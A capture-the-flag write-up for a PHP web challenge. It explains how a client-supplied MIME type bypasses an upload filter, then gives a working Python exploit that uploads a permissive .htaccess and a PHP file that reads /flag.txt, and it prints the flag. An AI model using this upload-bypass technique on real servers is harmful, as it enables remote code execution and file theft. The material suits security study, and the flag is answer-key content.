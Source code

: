 # legal-complaint-form

[library.m0unt41n.ch/challenges/legal-complaint-form](https://library.m0unt41n.ch/challenges/legal-complaint-form) ![](../../resources/web.svg) ![](../../resources/easy.svg) 

# TL;DR

We get a webapp for submitting and viewing "legal complaints" - defined as: {email, text uploaded file}.

*   `GET /index.php` has a form that allows submitting requests that consist of: email, some text, attachment (PDF/GIF/JPG).
*   `POST /submit.php` processes the form inputs:
    *    Check for allowed file types (JPG/GIF/PNG/PDF)
    *    Copies the file to `uploads/` directory, under originally uploaded name.
    *    Add case information to the DB
    *    Presents a confirmation dialog, with a link to the viewable case.
*   The requests can be viewed at: `/case.php?id=670d0b3d6d83e`
*   The attachments are accessible at `/uploads/filename.ext`
*   The flag is in `/flag.txt`

# Analysis

Obvious things first:

*   Obvious things first: no, `GET /uploads/../../../../flag.txt` does not work &#128578;

*   `/case.php` won't help, as it just provides a link to `uploads/`. And, it's
    sanitized anyway:

    ```php
    <b>Attachment:</b>
    <p><a href="<?php echo $complaint['file']; ?>"><?php echo basename($complaint['file']); ?></a></p>
    ```

*   The application checks MIME type of the uploaded files:

    ```php
    if (!in_array($_FILES['file']['type'], ['image/jpeg', 'image/gif', 'image/png', 'application/pdf'])) {
        header('Location: /?error='.urlencode("Invalid file!"));
        exit();
    }
    ```

*   There is a restrictive `.htaccess` in `uploads/` directory:

    ```htaccess
    <FilesMatch "\.php$">
    Order Deny,Allow
    Deny from all
    </FilesMatch>
    ```

## What is $_FILES?

Per https://www.php.net/manual/en/features.file-upload.post-method.php:

> The global $_FILES will contain all the uploaded file information. Its
> contents from the example form is as follows. Note that this assumes the use
> of the file upload name userfile, as used in the example script above. This
> can be any name.
>
> | Variable                           | Contents                                                                                                                                                                                                      |
> | ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
> | `$_FILES['userfile']['name']`      | The original name of the file on the client machine.                                                                                                                                                          |
> | `$_FILES['userfile']['type']`      | The mime type of the file, if the browser provided this information. An example would be `"image/gif"`. This mime type is however not checked on the PHP side and therefore don't take its value for granted. |
> | `$_FILES['userfile']['size']`      | The size, in bytes, of the uploaded file.                                                                                                                                                                     |
> | `$_FILES['userfile']['tmp_name']`  | The temporary filename of the file in which the uploaded file was stored on the server.                                                                                                                       |
> | `$_FILES['userfile']['error']`     | The error code associated with this file upload.                                                                                                                                                              |
> | `$_FILES['userfile']['full_path']` | The full path as submitted by the browser. This value does not always contain a real directory structure, and cannot be trusted. Available as of PHP 8.1.0.                                                   |
> 
> Files will, by default be stored in the server's default temporary directory,
> unless another location has been given with the `upload_tmp_dir` directive in
> `php.ini`. The server's default directory can be changed by setting the
> environment variable `TMPDIR` in the environment in which PHP runs. Setting
> it using `putenv()` from within a PHP script will not work. This environment
> variable can also be used to make sure that other operations are working on
> uploaded files, as well. 

The program does not set a specific `TMPDIR` and there does not seem to be one
in Apaches's `/proc/PID/environ` either. Patching `submit.php` to print the
`tmp_name`, we see that files are stored as e.g. `/tmp/phpTqW1zz`.

## The idea

We can not upload a PHP file for execution, because of the MIME check. This
can be bypassed - see above table, the file name (thus, extension) and MIME
type are sent separately. But then, `uploads/.htaccess` will prevent executing
it.

Maybe we can upload `.htaccess` then? &#128578; Something like:

*   Use `POST /submit.php` to submit a permissive (empty?) `.htaccess`, but, in the
    request, set: `name=".htaccess"` and `type="image/gif"`.
*   Use `POST /submit.php` to submit a malicious `exploit.php`, similarly,
    pretend it is one of the allowed MIME types
*   Execute `GET /uploads/exploit.php`.

# The exploit

[exploit.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/web/legal-complaint-form/exploit.py)

```python
import requests
import tempfile

URL="http://localhost:8080"
(_, TMPFILE) = tempfile.mkstemp()

open(TMPFILE, "w").write("")
requests.post(URL+"/submit.php",
              data={'email': 'user@gmail.com', 'description': 'My complaint'},
              files={'file': ('.htaccess', open(TMPFILE, "rb"), 'image/gif')})

open(TMPFILE, "w").write("<?php echo file_get_contents(\"/flag.txt\") ?>")
requests.post(URL+"/submit.php",
              data={'email': 'user@gmail.com', 'description': 'My complaint'},
              files={'file': ('exploit.php', open(TMPFILE, "rb"), 'image/gif')})

print(requests.get(URL+"/uploads/exploit.php").text)
```

# Bugs

*   All attachments are stored in a single directory, under original name.
    So, attachments from one case can overwrite those from another.
*   When running the container from cmdline, it dies on resizing the terminal window:

    ```
    [Mon Oct 14 12:08:09.096395 2024] [mpm_prefork:notice] [pid 1] AH00170: caught SIGWINCH, shutting down gracefully
    ```

---

## `shc2024{byp4ss3d_f1l3_typ3_ch3ck_a9834hrf}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
